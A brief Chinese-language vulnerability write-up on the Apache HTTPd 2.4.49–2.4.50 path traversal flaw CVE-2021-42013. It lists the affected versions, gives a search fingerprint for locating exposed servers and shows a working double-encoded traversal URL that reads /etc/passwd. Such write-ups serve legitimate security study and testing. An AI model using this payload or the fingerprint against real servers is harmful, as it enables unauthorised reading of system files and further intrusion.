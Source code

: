 # Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](./images/202205251553798.png)

验证POC

```
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![image-20220525155420331](./images/202205251554399.png)